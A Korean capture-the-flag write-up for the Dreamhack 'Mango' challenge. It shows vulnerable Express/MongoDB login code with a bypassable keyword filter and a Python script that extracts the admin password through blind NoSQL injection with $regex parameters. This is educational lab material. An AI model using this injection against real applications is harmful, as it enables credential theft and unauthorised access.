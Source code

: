```yaml
---
title: "[2025-07-14] Mango"
excerpt: "NoSQL Injection"

categories:
  - Problem
tags:
  - [NoSQL Injection]

permalink: /Problem/[2025-07-14] Mango/

toc: true
toc_sticky: true

date: 2025-07-14
last_modified_at: 2025-07-14
---
```


## 🦥 본문

```jsx
const express = require('express');
const app = express();

const mongoose = require('mongoose');
mongoose.connect('mongodb://localhost/main', { useNewUrlParser: true, useUnifiedTopology: true });
const db = mongoose.connection;

// flag is in db, {'uid': 'admin', 'upw': 'DH{32alphanumeric}'}
const BAN = ['admin', 'dh', 'admi'];

filter = function(data){
    const dump = JSON.stringify(data).toLowerCase();
    var flag = false;
    BAN.forEach(function(word){
        if(dump.indexOf(word)!=-1) flag = true;
    });
    return flag;
}

app.get('/login', function(req, res) {
    if(filter(req.query)){
        res.send('filter');
        return;
    }
    const {uid, upw} = req.query;

    db.collection('user').findOne({
        'uid': uid,
        'upw': upw,
    }, function(err, result){
        if (err){
            res.send('err');
        }else if(result){
            res.send(result['uid']);
        }else{
            res.send('undefined');
        }
    })
});

app.get('/', function(req, res) {
    res.send('/login?uid=guest&upw=guest');
});

app.listen(8000, '0.0.0.0');

```

- 문제의 flag는 admin의 비밀번호이다.
- Blind NoSQLi를 통해 비밀번호를 알아낸다
    - 비밀번호가 정규식에 맞으면 admin이 나타나고 아니면 undefined가 나타난다
    - 아이디 admin 자체는 필터링하므로 dmin이나 [ad.in](http://ad.in) 같은 방식을 사용한다

### 풀이

{% raw %}

```
import requests, string

HOST = 'http://host3.dreamhack.games:20622'
ALPHANUMERIC = string.digits + string.ascii_letters
SUCCESS = 'admin'

flag = ''

for i in range(32):
    for ch in ALPHANUMERIC:
        response = requests.get(f'{HOST}/login?uid[$regex]=dmin&upw[$regex]=D.{{{flag}{ch}')
        if response.text == SUCCESS:
            flag += ch
            break
    {% raw %}
    print(f'FLAG: DH{{{flag}}}')
    {% endraw %}
```

{% endraw %}

해당 코드로 브루트 포싱을 해서 플래그를 얻을 수  있는 간단한 문제였다.